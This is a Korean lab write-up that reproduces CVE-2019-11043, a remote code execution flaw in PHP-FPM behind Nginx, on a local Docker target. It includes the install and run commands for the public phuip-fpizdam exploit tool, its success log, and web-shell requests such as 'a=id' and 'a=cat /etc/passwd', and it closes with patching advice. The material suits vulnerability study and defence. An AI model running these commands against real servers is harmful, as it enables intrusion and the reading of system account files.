




# CVE-2019-11043

---

### Contributors

- 김현민

## 요약

- **PHP-FPM** 에서 특정 버전(7.1.x < 7.1.33, 7.2.x < 7.2.24, 7.3.x < 7.3.11)에서 원격 코드 실행(RCE, Remote Code Execution)이 가능한 취약점이 발견되었습니다.
- 이 취약점은 PHP-FPM이 FastCGI 요청을 처리하는 과정에서 버퍼 오버플로우가 발생하여 FCGI 프로토콜 영역을 침범할 수 있는 문제입니다.
- 특히 **Nginx** 와 연동된 특정 설정 환경에서 발생하며, 잘못된 location 정규식 설정으로 인해 공격자가 악의적인 요청을 보내 PHP-FPM 내부 메모리를 오염시킬 수 있습니다.

이 취약점은 2019년 **Real World CTF 2019 Quals** 에서 처음 발견되었습니다.

## 환경 구성

`docker compose up -d`를 실행하여 취약한 PHP-FPM 7.2.10 + Nginx 환경을 구성합니다.

환경 구성이 완료되면 아래 URL에 접속하여 기본 페이지를 확인합니다.

`http://your-ip:8080/index.php`

정상적으로 환경이 구성되었다면 기본 PHP 페이지가 출력됩니다.



취약점 소개 및 구현 증명

본 취약점은 PHP-FPM이 FastCGI 요청을 처리하는 과정에서 입력 길이를 계산하는 과정에 오류가 발생하여 힙 버퍼 오버플로우가 발생하는 취약점입니다.

공격자는 비정상적으로 긴 PATH_INFO 값을 전달하여 FPM 프로세스의 메모리를 덮어쓸 수 있습니다.

이 과정에서 FastCGI 프로토콜 영역까지 침범하게 되며, 이를 악용해 php.ini 설정을 조작하거나 임의 명령을 실행할 수 있습니다.

취약점 검증은 공개된 익스플로잇 도구인 [phuip-fpizdam](https://github.com/neex/phuip-fpizdam?utm_source=chatgpt.com) 을 사용합니다.

golang 설치

```
apt-get install golang
brew install golang
```

```
go install github.com/neex/phuip-fpizdam@latest
```

이후 phuip-fpizdam이 설치된 곳으로 이동을 하여 아래의 명령어를 실행합니다. `/go/bin`

```
./phuip-fpizdam "http://localhost:8080/index.php"
```

```Shell
./phuip-fpizdam "http://localhost:8080/index.php"
2026/06/29 14:01:24 Base status code is 200
2026/06/29 14:01:24 Status code 502 for qsl=1800, adding as a candidate
2026/06/29 14:01:24 The target is probably vulnerable. Possible QSLs: [1790 1795 1800]
2026/06/29 14:01:25 Attack params found: --qsl 1790 --pisos 40 --skip-detect
2026/06/29 14:01:25 Trying to set "session.auto_start=0"...
2026/06/29 14:01:25 Detect() returned attack params: --qsl 1790 --pisos 40 --skip-detect <-- REMEMBER THIS
2026/06/29 14:01:25 Performing attack using php.ini settings...
2026/06/29 14:01:25 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2026/06/29 14:01:25 Trying to cleanup /tmp/a...
2026/06/29 14:01:25 Done!
```

공격이 성공하면 다음과 같이 출력됩니다:



초기 공격 성공 후 PHP-FPM 프로세스 내부에 웹쉘이 삽입됩니다.

이후 아래 URL로 명령 실행이 가능합니다.

`http://your-ip:8080/index.php?a=id`

위 URL에 접근하면 현재 웹 서버 권한으로 실행 중인 사용자 정보가 출력됩니다.



이를 통해 원격 코드 실행이 성공적으로 이루어진 것을 확인할 수 있습니다.

추가로`a=cat /etc/passwd`를 데이터 패킷의 헤더 부분에 삽입하여 요청을 보내게 되면 명령어가 실행됩니다. 그 결과 사용자 계정정보가 출력됩니다.



---

## 정리

- 본 취약점은 PHP-FPM 내부 메모리 오염을 통해 원격 코드 실행(RCE)을 유발할 수 있는 심각한 취약점입니다.
- 특정 Nginx 설정 환경에서 쉽게 발생할 수 있으며, 공격 성공 시 웹쉘 업로드 및 서버 장악이 가능합니다.
- 또한 일부 PHP-FPM 자식 프로세스에만 영향을 주기 때문에 여러 번 요청해야 성공할 수 있습니다.
- 이를 방지하기 위해서는 PHP 버전을 최신 패치 버전으로 업데이트하고, Nginx의 location 설정을 안전하게 구성하는 것이 중요합니다.
